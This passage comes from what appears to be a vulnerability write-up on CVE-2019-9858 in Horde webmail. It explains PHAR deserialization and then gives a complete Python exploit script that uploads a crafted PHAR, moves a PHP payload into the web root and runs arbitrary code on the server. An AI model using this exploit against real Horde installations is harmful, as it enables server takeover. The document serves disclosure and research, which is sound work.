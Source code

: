 Note how a fake `Horde_Auth_Passwd` class is used, yet the visibility of members must match the original since protected members are prefixed by `\x00*\x00` when serialized.

Also, PHARs support a leading PHP *stub* that can be used to run some bootstrap operations when the file is used as a standalone executable. This means that a PHAR file is also a valid PHP file, in fact the actual payload is placed in the stub and the `rename` is used to move the PHAR file into the WWW root.

The following Python script takes care of creating, uploading and triggering the PHAR file:

```python
#!/usr/bin/env python3
from horde import Horde
import requests
import subprocess
import sys

TEMP_DIR = '/tmp'
WWW_ROOT = '/var/www/html'

if len(sys.argv) < 5:
    print('Usage: <base_url> <username> <password> <filename> <php_code>')
    sys.exit(1)

base_url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
filename = sys.argv[4]
php_code = sys.argv[5]

source = '{}/{}.phar'.format(TEMP_DIR, filename)
destination = '{}/static/{}.php'.format(WWW_ROOT, filename) # destination (delete manually)
temp = 'temp.phar'
url = '{}/static/{}.php'.format(base_url, filename)

# log into the web application
horde = Horde(base_url, username, password)

# create a PHAR that performs a rename when loaded and runs the payload when executed
subprocess.run([
    'php', 'create-renaming-phar.php',
    temp, source, destination, php_code
], stderr=subprocess.DEVNULL)

# upload the PHAR
with open(temp, 'rb') as fs:
    phar_data = fs.read()
    horde.upload_to_tmp('{}.phar'.format(filename), phar_data)

# load the phar thus triggering the rename
horde.trigger_phar(source)

# issue a request to trigger the payload
response = requests.get(url)
print(response.text)
```
{: download="exploit-phar-loading.py"}


[fix]: https://github.com/horde/Form/commit/f5fc41e9d3f1a7bc9371dda5d39ea7629b0030f3
[CVE-2019-9858]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9858
[^phar-extension]: Apparently it is not strictly needed to use the `.phar` extension, *any* non-empty extension will cause PHP to treat the file as PHAR if accessed via the `phar://` scheme.
[^three-blocks]: Actually the Git version comes with a third apparently vulnerable block (`Tagsearch.php`) but it is missing in the PEAR and Debian APT versions.
[^manual]: This cannot be done directly from the web page, either intercept the request or use the developer tools of the browser to change the value.
[^phar-unserialization]: See [File Operation Induced Unserialization via the "phar://" Stream Wrapper](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf).
[`phar.readonly`]: http://php.net/phar.readonly